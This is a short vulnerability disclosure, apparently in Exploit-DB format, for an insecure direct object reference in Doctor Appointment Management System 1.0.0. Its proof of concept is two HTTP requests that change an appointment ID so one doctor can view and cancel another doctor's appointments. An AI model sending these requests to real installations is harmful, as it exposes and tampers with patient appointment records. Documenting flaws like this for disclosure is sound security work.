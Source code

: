 # Exploit Title: Doctor Appointment Management System - V 1.0.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/doctor-appointment-management-system-using-php-and-mysql/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.0.0
## Exploit Description:
## Doctor Appointment Management System - V 1.0.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to look up and update the appointment that is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /dams/doctor/view-appointment-detail.php?editid=8(CHANGE HERE)&&aptid=154553066 HTTP/1.1
```

```
POST /dams/doctor/view-appointment-detail.php?editid=8(CHANGE HERE)&&aptid=154553066 HTTP/1.1
...

remark=hello&status=Cancelled&submit=
```